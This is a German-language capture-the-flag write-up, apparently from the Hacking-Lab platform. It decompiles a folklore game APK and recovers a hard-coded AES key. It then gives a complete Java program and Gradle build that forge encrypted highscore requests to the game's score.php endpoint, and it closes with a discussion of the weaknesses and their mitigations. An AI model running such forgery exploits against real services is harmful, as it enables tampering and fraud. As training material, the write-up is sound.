


# 4216 Folklore App Highscore Manipulation RE

## Analyse
- Auf <https://www.apkdecompilers.com> das APK hochladen und die Source-Files herunterladen
- Alle Files durchsuchen nach "encrypt": `grep -r "encrypt"`

- Der verschlüsselte Request wird im `backend/FolkloreService` gesendet:

```java
StringBuilder localStringBuilder1 = new StringBuilder();
String str = paramArrayOfCowGameScore[0].getNickname() + 
"::" + paramArrayOfCowGameScore[0].getScore() + 
"::" + (int)(System.currentTimeMillis() / 1000L);

byte[] arrayOfByte = OpenSSL.encrypt("AES-256-CBC", 
"FbXVVzMwXKdHaFXz8sJRAwkprbCxfwQn74zHZX27jSjEwfvB".toCharArray(), 
str.getBytes(Charset.forName("ASCII")), false);

HttpGet localHttpGet = new HttpGet(Uri.parse(FolkloreService.this.mobileSiteURI.toString())
.buildUpon().appendEncodedPath("score.php")
.appendQueryParameter("message", Base64.encodeToString(arrayOfByte, 8)).build().toString());

StringBuilder localStringBuilder2 = new StringBuilder();
Log.d("FolkloreService", "Posting " + localHttpGet.getURI().toString());
FolkloreService.this.fac.makeHttpClient().execute(localHttpGet);
return Boolean.valueOf(true);
```

- Es ist aber nicht gut ersichtlich, was die `mobileSiteURI` ist, an die der Request geschickt wird. Da es aber nicht TLS-verschlüsselt ist, finden wir das schnell mit Wireshark heraus:



- Der Request ist also in der Form `GET http://mobile.hacking-lab.com/score.php?message=<aes-256-message>`
- Wie im Code zu sehen ist, ist die Message im Format `nickname::score::timestamp`
- Diese Message wird ASCII-Codiert AES-256 verschlüsselt und als Base64 als Query-Parameter übergeben

## Exploit
- Für das OpenSSL wird ein altes Apache Commons verwendet
    - Im Maven Repository ist noch ein altes Apache Commons SSL von driter Quelle vorhanden: <https://search.maven.org/#artifactdetails%7Cca.juliusdavies%7Cnot-yet-commons-ssl%7C0.3.11%7Cjar>
    - Für den HTTP-Client benutzen wir Apache Commons HttpClient: <https://search.maven.org/#artifactdetails%7Ccommons-httpclient%7Ccommons-httpclient%7C20020423%7Cjar>
- Daraus können wir ein Gradle-File erstellen, um das Projekt zu builden:

```groovy
apply plugin: 'java'
apply plugin: 'eclipse'
repositories {
	mavenCentral()
}
sourceCompatibility = 1.8
targetCompatibility = 1.8

dependencies {
    compile 'commons-httpclient:commons-httpclient:20020423'
    compile 'ca.juliusdavies:not-yet-commons-ssl:0.3.11'
}

apply plugin: 'application'

mainClassName = 'FolkloreServiceHack'
```
- Das Programm kann mit `gradle eclipse` vorbereitet und anschliessend in Eclipse importiert werden
- Für das Programm übernehmen wir den Original-Code und ändern lediglich die Aufrufe zum `HttpClient`, der Aufruf zu `OpenSSL` kann gleich bleiben

```java
import java.net.URL;
import java.nio.charset.Charset;
import java.util.Base64;

import org.apache.commons.httpclient.HttpClient;
import org.apache.commons.httpclient.methods.GetMethod;
import org.apache.commons.ssl.OpenSSL;

public class FolkloreServiceHack {

	public static void main(String[] args) throws Exception {

		String nickname = "hax00r";
		String score = "99999999999";
		String mobileSiteURI = "http://mobile.hacking-lab.com";
		
		char[] passphrase = "FbXVVzMwXKdHaFXz8sJRAwkprbCxfwQn74zHZX27jSjEwfvB"
				.toCharArray();

		String message = nickname + "::" + score + "::"
				+ (int) (System.currentTimeMillis() / 1000L);
		byte[] arrayOfByte = OpenSSL.encrypt("AES-256-CBC",
				passphrase, message.getBytes(Charset.forName("ASCII")), false);
		String path = "/score.php?message="
				+ Base64.getEncoder().encodeToString(arrayOfByte);
		GetMethod localHttpGet = new GetMethod(path);
		System.out.println(path);
		HttpClient httpClient = new HttpClient();
		httpClient.startSession(new URL(mobileSiteURI));
		httpClient.executeMethod(localHttpGet);
		System.out.println(localHttpGet.getResponseBodyAsString());
		
		httpClient.endSession();
	}
}
```

- Nach der Ausführung erscheinen wir als `hax00r` auf dem Scoreboard:



## Auswertung

### Sicherheits-Probleme
- Der Traffic ist nicht verschlüsselt, was ein Abhören sehr einfach macht
- Das Posten des Highscores braucht keinerlei Authentifizierung
- Der Schlüssel für die AES256-Verschlüsselung ist hard-coded in der App
    - Irgendwo muss der Key abgelegt Client-seitig abgelegt werden, es ist also unmöglich, ihn komplett geheim zu halten
- Es wird nicht geprüft, ob ein Highscore überhaupt realistisch ist, er kann beliebig gross werden

### Mitigation
Solche Highscore-Games, wo ein Client ein Highscore an den Server schickt, sind von Natur aus sehr schwer abzusichern, eine 100%ige-Sicherheit ist sogar unnmöglich, weil der Angreifer komplette Kontrolle über den Client hat. Auch wenn lokale Encryption-Keys verwendet werden, können diese immer aus dem Binary oder dem de-compilierten Sourcecode gelsen werden. Der Server kann nie mit absoluter Sicherheit wissen, ob ein Highscore wirklich gültig ist. Eine Authentisierung mit Token nützt auch nicht viel, da der Angreifer dies einfach auslesen und selbst benutzen kann.

Allerdings kann man einige Hürden einbauen, die einen Angriff komplizierter und teurer machen. Hier werden nur ein paar aufgezählt, geordnet nach den Offensichtlichsten:

- TLS verwenden
- Authentifizierung mit dem Highscore-Server, z.B. über ein Cookie oder Session-Token, das beim Highscore-Request mitgeschickt wird
- Unüblich hohe Highscores ignorieren
- Requests limitieren, die von einem User gemacht werden
- Zu Beginn ein vom Server verschlüsseltes Token senden (mit z.B. der User ID), dass dann beim Highscore-Request vom Client mitgeschickt wird
- Mit dem Token prüfen, wie lang ein Spiel dauert, und Highscore von zu kurzen oder zu langen Spielen verwerfen
- Während dem Spielen kontinuierlich den Zwischen-Score zum Server schicken, der die Punktzahl selbst hochzählen kann

Eine gute Zusammenfassung zum Thema ist auch in dieser Stackoverflow-Antwort zu finden:  
<http://stackoverflow.com/a/74841>
